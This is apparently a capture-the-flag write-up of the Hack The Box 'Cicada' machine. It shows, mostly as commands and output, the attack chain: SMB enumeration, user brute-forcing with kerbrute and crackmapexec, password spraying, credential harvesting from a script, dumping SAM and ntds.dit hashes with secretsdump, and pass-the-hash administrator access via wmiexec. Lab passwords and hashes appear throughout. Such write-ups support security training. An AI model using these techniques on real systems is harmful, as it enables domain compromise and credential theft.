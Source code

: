 found hostmaster.cicada.htb dns 
 1. SMB
 smbclient //10.10.11.35/HR -U " "%" "
 we found file Notice from HR.txt
Your default password is: Cicada$M6Corpb*@Lp#nZp!8

2. Kerbrute
kerbrute userenum -d cicada.htb --dc 10.10.11.35 ./xato-net-10-million-usernames.txt Cicada$M6Corpb*@Lp#nZp!8

2025/01/26 05:55:48 >  [+] VALID USERNAME:       guest@cicada.htb
2025/01/26 05:55:54 >  [+] VALID USERNAME:      administrator@cicada.htb

3. crackmapexec
sudo crackmapexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep "SidTypeUser"
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)

 4. SMB_LOGIN
 we create user file and run smb_login in msfconsole
[+] 10.10.11.35:445       - 10.10.11.35:445 - Success: '.\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8'

5. crackmapexec SMB
sudo crackmapexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\david.orelious                 badpwdcount: 1 desc: Just in case I forget my password is aRt$Lp#7t*VQ!3                             

6. SMB 
smbmap -u david.orelious -p 'aRt$Lp#7t*VQ!3' -d CICADA.HTB -H 10.10.11.35 --download "DEV\Backup_script.ps1" 
/home/kali/Desktop/test/10.10.11.35-DEV_Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$ backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

then we enumerate shares for emily
IP: 10.10.11.35:445 Name: cicada.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ ONLY       Remote Admin
        C$                                                      READ ONLY       Default share

then we found in C$ share \Users\emili\Desktop\user.txt
we also found in \Temp\sam,system and Windows\Systme32\ntds.dit and get
python3 secretsdump.py -ntds ntds.dit -system system -sam sam -hashes lmhash:nthash LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

geting root access
python3 ./wmiexec.py Administrator@10.10.11.35 -hashes aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341